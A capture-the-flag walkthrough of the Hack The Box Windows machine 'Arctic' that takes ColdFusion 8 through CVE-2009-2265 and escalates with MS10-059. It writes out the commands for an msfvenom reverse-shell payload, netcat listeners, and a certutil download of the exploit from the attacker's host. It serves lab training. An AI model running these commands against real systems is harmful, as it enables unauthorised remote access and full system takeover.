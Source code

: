 # Arctic

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Arctic)  [2](https://app.hackthebox.com/machines/Arctic)

**Machine ip:** 10.10.10.11

![Arctic](https://github.com/h4md153v63n/CTFs/assets/5091265/d397feae-2a4e-407d-b89c-8be5e16dbd0c)


# Sections
+ [Reconnaissance](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/46_Arctic.md#reconnaissance)
+ x
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/46_Arctic.md#links)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.11 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.11 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2a63e599-4daa-4749-9bce-3fdd108a0fb8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1fb88333-4181-436f-afa1-c5b07366bca2)


## Enumeration
Visit **http://10.10.10.11:8500/**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d1d0c15-3bc9-4a1e-b45f-2bbfc5ab816f)

Check consecutively **http://10.10.10.11:8500/CFIDE/** -> **http://10.10.10.11:8500/CFIDE/administrator/**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ffa0ee5-63da-4a34-802b-d94c1505c0b2)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc394261-f2e2-4ff1-8097-2bff1c424d5e)


## Exploitation & Gaining Access

### Method 1: [CVE-2009-2265](https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py) - Without Metasploit
`searchsploit ColdFusion 8.0`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8ebb9589-7dde-449e-b246-753a5516da14)

Without metasploit, download the exploit: [CVE-2009-2265](https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/249d5d95-b6cf-4463-b08a-c0a89556408d)

Generate a **jsp** reverse shell payload with msfvenom:

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.24 lport=4444 -f raw -o payload.jsp
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8a065239-c0c4-444b-b822-4fbb82ec1195)

Execute the exploit: `python2 upload.py 10.10.10.11 8500 payload.jsp`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/14c69e8e-c227-4fd2-8387-c2d648fb6979)

Start netcat listener: `nc -lnvp 4444`

Visit the payload on the browser: `http://10.10.10.11:8500/userfiles/file/exploit.jsp`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4742bb0b-33c5-4a3a-bcb9-7d4e30059efa)

Get the revershell, and read the user.txt flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c7c29511-3e4a-44e2-a455-cbb6fde1a4a6)


## Privilege Escalation

### Method 1: 
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/eff27157-eea5-4e03-9f32-e6c80e696f91)

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/595ca8c8-d4f9-4097-8f8d-6269df2958be)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-23-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1890f685-15db-47dd-9b54-395cc6ddfef8)

Download exploit **MS10-059** [1](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), and transfer to the target victim, then prepare netcat listener, and run it:

```
# On the kali attack vm:
sudo python3 -m http.server

nc -lnvp 5555


# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS10-059.exe" MS10-059.exe

MS10-059.exe 10.10.14.24 5555
```

Get the shell as **nt authority\system**, and read root.txt flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/03b09a37-ec6e-4c65-8fdf-f1a0fc7ae8d8)



---

# Links

# References & Alternatives
+ https://vvmlist.github.io/#Arctic
+ https://cyberkareem.medium.com/hackthebox-arctic-walkthrough-13e1920d0cca
+ x 
+ https://0xdf.gitlab.io/2020/05/19/htb-arctic.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/arctic-writeup-w-o-metasploit
+ 


## CVE Scripting
+ **CVE-2009-2265:**
  + https://github.com/c0d3cr4f73r/CVE-2009-2265/tree/main
    + https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py
+ **MS10-059:**
  + https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059


## Tools
+ x 


## Technical Knowledge
+ x 


## Problems Solution
+ x 


## For More
+ x 

